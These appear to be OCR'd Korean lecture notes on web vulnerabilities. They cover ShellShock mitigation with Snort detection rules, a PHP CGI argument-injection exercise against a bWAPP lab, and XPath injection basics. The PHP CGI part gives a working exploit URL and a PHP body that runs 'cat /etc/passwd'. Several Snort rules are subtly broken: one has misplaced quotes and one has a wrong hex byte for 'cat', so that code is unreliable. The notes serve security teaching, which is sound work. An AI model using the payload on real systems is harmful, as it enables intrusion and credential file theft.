 **ShellShock 취약점 대응 방안**
- 환경변수 처리 시 함수 선언문인지 확인하고 명령어 처리 횟수(반복문 횟수)를 1회로 제한하여 parse_and_execute() 함수를 호출

- alert tcp any any -> any any (msg:" Bash_code_injection_cat"; content:"|28 29 20 7b|"; content:"|55 73 65 72 2d 41 67 65 6e 74 3a 20|"; content:"|60 61 74|"; nocase; )
- alert tcp any any -> any any (msg:" Bash_code_injection_passwd"; content:"|28 29 20 7b|"; content:""|55 73 65 72 2d 41 67 65 6e 74 3a 20|"; content:|70 61 73 73 77 64|"; nocase; )
- alert tcp any any -> any any (msg:" Bash_code_injection_ping"; content:"|28 29 20 7b|"; content:"|55 73 65 72 2d 41 67 65 6e 74 3a 20|"; content:"|70 69 6e 67|"; nocase; )

---

### 기타 주요 웹 취약점 - PHP CGI 취약점 이해 및 실습

**PHP CGI 취약점 개요**
- PHP 5.4.12 이전 버전의 sapi/cgi/cgi_main.c에서 CGI 스크립트가 질의 문자열을 제대로 처리하지 못해 발생
```
-n옵션: php.ini 파일을 사용하지 않음
-s옵션: Source를 색을 입혀 보여주는 옵션
-d옵션: php.ini에 정의된 설정 내용을 임의 설정
```
- Body로 임의의 코드를 대입하면 클라이언트 측에서 원하는 php코드를 실행
```
allow_url_fopen=1 : 외부의 URL로부터 파일을 읽어옴
allow_url_include=1 : 외부의 파일을 include, include_once, require, require_once와 같은 파일로 include 허용
auto_prepend_file=php://input : Http Request Body로부터 data를 가져와 실행
```
```
/bWAPP/admin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
<?php $output = shell_exec('cat /etc/passwd'); echo "$output"; die;
```

---

### 기타 주요 웹 취약점 - XML Xpath Injection

**XML/Xpath 인젝션**
- XML 구조에 악의적인 행위를 일으키는 내용을 삽입

**XML**
- 데이터를 트리 구조의 노드로 표현, 사용자 정의로 데이터를 분류

**Xpath**
- 일종의 쿼리
- XML DB의 내용을 선택/조작

**Xpath 명령어**
```
/ : 최상위 노드
// : 현재 노드로부터 모든 노드 조회
* : 모든 노드 조회
. : 현재 노드
.. : 현재 상위 노드 접근
parent : 현재 노드의 부모 노드
child : 현재 노드의 자식 노드
[] : 조건문
node() : 현재 노드로부터 모든 노드 조회
```
